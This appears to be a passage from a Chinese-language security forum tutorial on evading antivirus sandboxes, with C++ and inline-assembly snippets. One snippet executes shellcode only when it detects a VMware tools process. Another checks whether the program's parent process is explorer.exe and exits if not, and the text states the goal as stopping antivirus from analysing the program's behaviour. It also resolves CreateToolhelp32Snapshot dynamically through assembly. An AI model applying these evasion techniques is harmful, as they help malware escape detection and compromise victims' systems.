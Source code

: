 ```c++

    while(pr)  
    {  
        if (strcmp(pe32.szExeFile, "vmtoolsd.exe")== 0) // if (strcmp(pe32.szExeFile, "vmacthlp.exe")==0)
        {  
            __asm
            {
              lea eax,shellcode;
              jmp eax;
            }
            return TRUE;  
        }  
        pr = Process32Next(hSnapshot, &pe32);   
    }  
    CloseHandle(hSnapshot);
}
```

反沙箱调试
=====

最简单的反调试的措施就是检测父进程。一般来说，我们手动点击执行的程序的父进程都是explorer。如果一个程序的父进程不是explorer，那么我们就可以认为他是由沙箱启动的。那么我们就直接exit退出，这样，杀软就无法继续对我们进行行为分析了。

这里的思路是使用`CreateToolhelp32Snapshot`拍摄快照，从快照中获取`explorer.exe`的id，再根据pid在进程快照中获取其父进程的id信息，两者进行比较，若相同则不为沙箱可以继续运行程序，若不相同则为沙箱直接`exit()`退出程序

首先通过调用`CreateToolhelp32Snapshot`拍摄快照

```c++
HMODULE hModule = LoadLibrary(_T("Kernel32.dll"));
FARPROC Address = GetProcAddress(hModule, "CreateToolhelp32Snapshot");
```

然后使用汇编语句进行传参

```c++
_asm{
    push 0
    push 2
    call Address
    mov hkz, eax
}
```

因为传参的话是从右往左传参，传入的第一个参数就是2，在`createtoolhelp32snapshot`里第一个参数为2的时候含义如下

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-c8a82c369f2ccded52942e0d149da8ef3350e608.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-c8a82c369f2ccded52942e0d149da8ef3350e608.png)

第二个参数传入0，代表的是默认进程

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f1f049ab689ff99b0f936b29ffab4f1dac90ba89.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f1f049ab689ff99b0f936b29ffab4f1dac90ba89.png)

